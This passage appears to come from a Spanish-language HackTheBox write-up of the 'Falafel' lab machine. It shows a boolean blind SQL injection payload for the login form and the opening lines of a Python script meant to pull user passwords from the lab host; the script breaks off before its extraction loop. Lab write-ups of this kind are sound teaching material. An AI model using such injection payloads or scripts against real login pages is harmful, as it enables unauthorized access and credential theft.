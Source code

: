 <img src="/writeups/assets/img/Falafel-htb/5.png" alt="">

<img src="/writeups/assets/img/Falafel-htb/6.png" alt="">

Como muchas de las querys que introduzco son bloqueadas, más que intentar mostrar datos en el error puedo introducir una condición para que en caso de que se cumpla, el error cambie. Por ejemplo: ```admin' and substring(username,1,1)='a'```

Creo un script en python que se encargue de extraer la contraseña de los dos usuarios que tengo

```null
#!/usr/bin/python3

from pwn import *
import requests, time, sys, string, signal

def def_handler(sig, frame):
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales

main_url = "http://10.10.10.73/login.php"
characters = string.digits + string.ascii_lowercase

def makeRequest():
    
    p1 = log.progress("SQLi")
    p1.status("Dumpeando datos")
    time.sleep(2)

    p2 = log.progress("Contraseña; ")
```